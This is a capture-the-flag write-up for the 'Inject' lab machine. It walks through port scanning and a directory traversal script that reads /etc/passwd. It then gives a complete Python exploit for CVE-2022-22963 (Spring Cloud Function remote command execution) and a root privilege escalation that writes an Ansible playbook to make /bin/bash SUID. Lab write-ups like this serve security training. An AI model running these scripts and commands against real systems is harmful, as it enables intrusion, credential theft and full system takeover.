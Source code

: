 # Inject (Easy)  

## Nmap  

```
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca syn-ack ttl 63 Nagios NSCA
```  

## Http 8080  

We have two usernames posted on the /blogs section.  

```
admin
Brandon Auger
```  

Once uploading an image, I noticed the following path with a url parameter.  

`http://10.129.252.5:8080/show_image?img=some-image.jpg`  

Path to upload folder.  

`/var/www/WebApp/src/main/uploads`  

## Directory Traversal  

Using the following script.  

```bash
#!/bin/bash

#
# Usage:
# ./dir-trav.sh 10.129.252.153 8080 show_image?img=
#

IP="$1"

PORT="$2"

REMOTE_PATH="$3"

FILE="etc/passwd"

PREV="../"


for num in $(seq 1 10);
do
    FULL="http://$IP:$PORT/$REMOTE_PATH$PREV$FILE"
    echo "$FULL"
    curl -s --path-as-is "$FULL"
    PREV+="../"
    echo "=========================================="
done
```  

Returns the etc file.  

Scanning web root script.  

```bash
#!/bin/bash

for purple in $(cat /usr/share/dirb/wordlists/common.txt);
do

result=$(curl -s --path-as-is "http://10.129.253.55:8080/show_image?img=../../../../../../var/www/WebApp/$purple")

grep -v "Internal Server Error" <<< $result

done

```  

Results of /var/www/WebApp/  

```
main
test
.DS_Store
classes
generated-sources
generated-test-sources
maven-archiver
maven-status
spring-webapp.jar
spring-webapp.jar.original
surefire-reports
test-classes
```  

Results of /var/www/WebApp/src/  

```
java
resources
uploads
java
```  

Results of /var/www/WebApp/src/main/  

```
com
META-INF
application.properties
media
META-INF
static
templates
```  



## Users  

Finding the following users with a valid shell.  

```
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```  

## cve-2022-22963 exploit  

```python
# Google Dork: intext:"Spring Cloud Function SPeL"

import requests
import sys
import urllib3
urllib3.disable_warnings()

def rce(ip, cmd):

    payload=f'T(java.lang.Runtime).getRuntime().exec("{cmd}")'
    data = 'd'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded',

    }

    uri = f'http://{ip}/functionRouter'

    try:
        req = requests.post(url=uri,headers=headers,data=data,verify=False,timeout=3)
        text = req.text
        response = '"error":"Internal Server Error"'
        if response in text:
            print(f'[+] Host is vulnerable')
            print(f'[+] Command executed')
            print(f'[+] Exploit completed')
        else:
            print(f'[-] {uri} not vulnerable')
    except requests.exceptions.RequestException:
        print('[-] Request timed out')
    except:
        print(f'[-] Error in {uri}')
        
if __name__ == '__main__' :
    if len(sys.argv) < 3:
        print('Usage:')
        print(f'python3 {sys.argv[0]} <IP> command')
        print('Example: python3 exploit.py 10.10.10.10 whoami')
        exit()
    rce(sys.argv[1], sys.argv[2])
```

## Priv esc  

In /home/frank/.m2/settings.xml the following creds were found.  

```
User: phil
Password: DocPhillovestoInject123
```

As phil, /opt/automation/tasks is writable, there is a yaml file being run by a cron process.  

```
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```  

Adding the following to a new yaml file and getting root by running '/bin/bash -p'.  

`echo -e "- hosts: localhost\n  tasks:\n  - name: priv\n    command: sudo chmod +s /bin/bash" > playbook_2.yml`
